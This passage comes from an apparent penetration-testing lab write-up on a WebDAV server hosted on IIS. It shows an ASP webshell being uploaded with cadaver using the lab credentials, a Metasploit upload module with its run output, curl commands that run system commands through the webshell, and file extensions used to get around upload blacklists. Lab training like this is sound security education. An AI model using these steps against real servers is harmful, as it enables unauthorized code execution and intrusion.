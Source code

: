**Lab Results Interpretation:**
```
PUT    asp    SUCCEED:    http://demo.ine.local/webdav/DavTestDir_JIP03NgL9rKBLqB/davtest_JIP03NgL9rKBLqB.asp
EXEC   asp    SUCCEED:    http://demo.ine.local/webdav/DavTestDir_JIP03NgL9rKBLqB/davtest_JIP03NgL9rKBLqB.asp
```

#### Method 2: Manual Upload via Cadaver
```bash
# Interactive WebDAV client session
cadaver http://demo.ine.local/webdav/
Username: bob
Password: password_123321

# Upload webshell from Kali Linux collection
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
dav:/webdav/> ls
dav:/webdav/> quit
```

#### Method 3: Automated Metasploit Bypass
```bash
# Metasploit handles bypass automatically
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS demo.ine.local
set HttpUsername bob  
set HttpPassword password_123321
set PATH /webdav/metasploit%RAND%.asp
exploit

# Automated process:
# [*] Uploading 609542 bytes to /webdav/metasploit159423466.txt...
# [*] Moving /webdav/metasploit159423466.txt to /webdav/metasploit159423466.asp...
# [*] Executing /webdav/metasploit159423466.asp...
```

#### Method 4: Manual Command Execution
```bash
# Direct access to uploaded webshell
curl "http://demo.ine.local/webdav/webshell.asp?cmd=whoami"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=dir"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=systeminfo"
```

### Additional Common Scenarios

#### Scenario 1: Extension Blacklist Bypass
```bash
# Problem: Server blocks .php, .asp, .jsp extensions
# Solution: Use alternative executable extensions

# Test alternative PHP extensions
upload_file.php3   # PHP 3.x legacy extension
upload_file.phtml  # PHP HTML template
upload_file.php5   # PHP 5.x specific extension
upload_file.inc    # Include file (often executable)
```

